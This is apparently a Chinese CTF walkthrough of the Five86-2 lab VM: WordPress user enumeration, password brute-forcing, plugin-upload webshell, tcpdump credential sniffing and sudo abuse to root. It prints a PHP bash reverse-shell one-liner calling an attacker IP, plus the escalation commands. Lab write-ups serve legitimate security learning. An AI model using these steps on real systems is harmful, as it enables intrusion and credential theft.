







**环境配置**
ova导入 启动后改NAT

靶机ip: 192.168.136.163

nmap扫:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2024-05-05 17:40 CST
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 17:40 (0:00:06 remaining)
Nmap scan report for 192.168.136.163
Host is up (0.00041s latency).
Not shown: 997 filtered ports
PORT   STATE  SERVICE  VERSION
20/tcp closed ftp-data
21/tcp open   ftp      ProFTPD 1.3.5e
80/tcp open   http     Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.1.4
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Five86-2 &#8211; Just another WordPress site
MAC Address: 00:0C:29:0D:2B:25 (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.72 seconds

```

这次没有ssh了
取而代之的是ftp
而且web是WordPress的
手动配置一下DNS解析HOST
`192.168.136.163 five86-2`

whatweb收集信息:
```
http://192.168.136.163 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.136.163], JQuery[1.12.4], MetaGenerator[WordPress 5.1.4], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Five86-2 &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[5.1.4]
```

wpscan 扫扫
`wpscan --url=http://192.168.136.163 --enumerate u`

扫出来几个用户:
```
[i] User(s) Identified:

[+] peter
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] barney
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] gillian
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] stephen
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

尝试一波cewl后wpscan爆密码没出
好吧 用rockyou 硬爆吧
跑出来:
```
barney   spooky1
stephen  apollo1
```

以barney登陆进去发现plugins中的 `Insert or Embed articulate content` 存在已知漏洞
注意 zip里面要放一个html后再放php 不然传不了




连接 /shell/shell.php


然后反弹shell到kali
但貌似弹不了?

可以把shell.php直接写成一个反弹shell 也可以就在蚁剑操作
这里还是选择反弹shell
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.136.146/9999 0>&1'");?>
```



我们可以利用前面爆出来的两个密码来su

su stephen后python3起一个交互shell `python3 -c 'import pty;pty.spawn("/bin/bash")'`

然后又是一个新姿势 `getcap -r / 2>/dev/null`
在整个文件系统递归获取所有文件

```
stephen@five86-2:/$ getcap -r / 2>/dev/null       
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip

```



所以用tcpdump -D 来看看

```
stephen@five86-2:/$ tcpdump -D
tcpdump -D
1.br-eca3858d86bf [Up, Running]
2.eth0 [Up, Running]
3.veth30da35d [Up, Running]
4.lo [Up, Running, Loopback]
5.any (Pseudo-device that captures on all interfaces) [Up, Running]
6.docker0 [Up]
7.nflog (Linux netfilter log (NFLOG) interface) [none]
8.nfqueue (Linux netfilter queue (NFQUEUE) interface) [none]
```

重点关注 `veth30da35d`  
我们在/tmp目录下执行
`timeout 150 tcpdump -w cap.pcap -i veth30da35d`

```
stephen@five86-2:/tmp$ pwd
pwd
/tmp
stephen@five86-2:/tmp$ timeout 150 tcpdump -w cap.pcap -i veth30da35d
timeout 150 tcpdump -w cap.pcap -i veth30da35d
tcpdump: listening on veth30da35d, link-type EN10MB (Ethernet), capture size 262144 bytes


84 packets captured
84 packets received by filter
0 packets dropped by kernel
stephen@five86-2:/tmp$ 

```

然后可以 `tcpdump -r` 分析



得到 paul的密码: `esomepasswford`

可以su paul了
sudo -l
```
paul@five86-2:/tmp$ sudo -l
sudo -l
Matching Defaults entries for paul on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User paul may run the following commands on five86-2:
    (peter) NOPASSWD: /usr/sbin/service

```

paul 的`/usr/sbin/service`可以执行peter的权限

md 查了一圈 可以这样:
`sudo -u peter /usr/sbin/service ../../../../bin/sh`
就可以直接获得peter的shell
继续sudo -l
```
$ id
id
uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
$ sudo -l
sudo -l
Matching Defaults entries for peter on five86-2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on five86-2:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/passwd
```

`/usr/bin/passwd`提权
直接改root密码即可
```
$ sudo /usr/bin/passwd
sudo /usr/bin/passwd
New password: 123456

Retype new password: 123456

passwd: password updated successfully
$ su
su
Password: 123456

root@five86-2:/# 

```

getroot


---
---

总结一下:
最开始的wp字典硬爆破有点离谱...
进去后找插件漏洞的思路很自然 然后就是要找对怎么利用... 
上传后反弹shell到kali
进一步提权时接触到了 tcpdump
我觉得作者的思路应该是: 前面nmap扫出了ftp端口 所以猜测有ftp相关的流量 所以tcpdump来捕获对应流量得到敏感数据

所以这个靶机主要学习的就是如何捕获/分析 ftp流量
